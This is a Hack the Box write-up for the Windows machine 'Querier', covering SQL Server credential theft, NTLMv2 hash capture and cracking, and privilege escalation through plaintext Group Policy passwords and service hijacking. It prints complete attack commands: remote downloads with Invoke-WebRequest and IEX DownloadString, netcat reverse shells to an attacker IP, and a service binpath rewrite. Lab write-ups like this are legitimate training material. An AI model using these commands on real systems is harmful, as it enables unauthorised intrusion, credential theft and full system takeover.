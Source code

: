 ```yaml
---
title: Querier
date: 2024-03-06 10:00
categories: [ctf, security, hacking, exploits, sql server, information disclosure, weak credentials, anonymous access]
tags: [ctf, security, hacking, exploits, sql server, information disclosure, weak credentials, anonymous access]
---
```


# Overview
Querier is a vulnerable machine from [Hack the Box](https://www.hackthebox.com) that requires some smb enumeration and using SQL server authentication. The foothold is accomplished after logging into SQL Server, dumping a hash, cracking the hash, and using the credentials to get a shell. The privilege escalation is accomplished through enumerating the host for interesting files, and one file has a plain text password stored. There is another path through abusing a service that we have permissions to modify, and can set it to execute a shell. 

## Nmap Scan
sudo nmap -sS -p- `10.10.10.125` -vvv

* 135/tcp  open  msrpc        syn-ack ttl 127
* 139/tcp  open  netbios-ssn  syn-ack ttl 127
* 445/tcp  open  microsoft-ds syn-ack ttl 127
* 1433/tcp open  ms-sql-s     syn-ack ttl 127
* 5985/tcp  open  wsman        syn-ack ttl 127
* 47001/tcp open  winrm        syn-ack ttl 127

> name: Microsoft SQL Server 2017 RTM
>> number: 14.00.1000.00

## Basic Enumeration
Enumeration the smb shares, we can see there are 4 potential shares for us to look into:
```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
Reports         Disk
```

* Looking into the `Reports` smb share, we find a file, `Currency Volume Report.xlsm`.
* We can use something like `Libre Office` to view the file. There is also another tool called `binwalk` to dump out the contents of the file. There is a Visual Basic script in the file:
```vb
Rem Attribute VBA_ModuleType=VBADocumentModule
Option VBASupport 1

' macro to pull data for client volume reports
'
' further testing required

Private Sub Connect()

Dim conn As ADODB.Connection
Dim rs As ADODB.Recordset

Set conn = New ADODB.Connection
conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
conn.ConnectionTimeout = 10
conn.Open

If conn.State = adStateOpen Then

  ' MsgBox "connection successful"
 
  'Set rs = conn.Execute("SELECT * @@version;")
  Set rs = conn.Execute("SELECT * FROM volume;")
  Sheets(1).Range("A1").CopyFromRecordset rs
  rs.Close

End If

End Sub
```

Looking through the contents of this Macro, the uid is `reporting`, and the Server is `QUERIER`. We also have a password, `PcwTWTHRwryjc$c6`. Impacket has a script, `mssqlclient`, that will allow us to connect to the SQL Server. 

* `impacket-mssqlclient QUERIER/reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth`
    * Since we cannot get a shell with `enable_xp_cmdshell`, we will need to query the data manually.
    * Resource to learn more about enumerating in MS SQL: https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

We can set up `immpacket-smbserver` to dump potential hashes from the machine: 
* `impacket-smbserver -smb2support share ~/Documents/HTB/Querier/share`
* `exec xp_dirtree ‘\\<attack ip>\share’,1,1`

It dumped out a hash for the user `mssql-svc`: 
```
mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:35c6bfe9d6aa1cbd0e6597448cd34712:0101000000000000802f8a773c72da0108fda96a635ab86e000000000100100054006a0063004c004200660045006f000300100054006a0063004c004200660045006f000200100045006d005800770075005700460072000400100045006d0058007700750057004600720007000800802f8a773c72da0106000400020000000800300030000000000000000000000000300000c76febbce075379824374588fb2b171d6615d638f3c7eb4ebbdde1a9f4f961ce0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003200000000000000000000000000
```
This type of hash is a `ntlmv2 hash`. More information on how to capture credentials like this and why it works can be found [here](https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478). 

* We crack the hash with `hashcat`, using module `5600` for ntlmv2, and get: `corporate568`
* Before, we had authenticated as an anonymous user, and how we can re-authenticate back to the server as the service account. 

## Foothold
Now with our credentials, we can see if the service account `MSSQL-SVC` can run the command to enable a command shell: `enable_xp_cmshell`.

* Since this works, we can now get more data, and transfer over a file to get a real shell on the host. 
* Netcat is nice, so we use that, and have it execute a call back to our attacker machine: 
    * `xp_cmdshell powershell -c Invoke-WebRequest "http://10.10.16.2:8000/nc64.exe" -OutFile "C:\Reports\nc64.exe"`
    * `xp_cmdshell C:\Reports\nc64.exe -e cmd.exe 10.10.16.2 4444`

We are now on the machine with netcat, and can access our `user.txt`.

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/querier/Querier_User.png?raw=true)

## Local Enumeration
With our shell, we can bring over a script like `PowerUp.ps1`, and run it to check for some easy exploits. You will want to modify the script and add `Invoke-AllChecks` at the end of the script so this will automatically happen after you bring it over: 
* `cmd.exe /c powershell "IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.2:8000/PowerUp.ps1')"`

This script immediately finds a file with plain text credentials in it:
```powershell
[*] Checking for cached Group Policy Preferences .xml files....

Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group
Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
```

## Privilege Escalation
Now that we have the admin password, we should be able to easily use the `psexec` from impacket to sign in and own this box:
* `impacket-psexec 'Administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125'`
* We are `nt authority\system`, and can read `root.txt.`

Another method that was found by `PowerUp.ps1`, is pointing to a service we have permissions to modify: 
```powershell
[*] Checking service permissions...

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
```

We can view more information on this service by running `sc qc UsoSvc`. This shows us we can modify what this executes. We can replace this service to execute `netcat` for us to get a shell back. 
* `sc config UsoSvc binpath=”C:\Reports\nc64.exe -e cmd.exe 10.10.16.2 5555”`
* Then, we have to run `sc stop UsoSvc`, and `sc start UsoSvc`. We have another shell back as `nt authority\system`.

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/querier/Querier_Root.png?raw=true)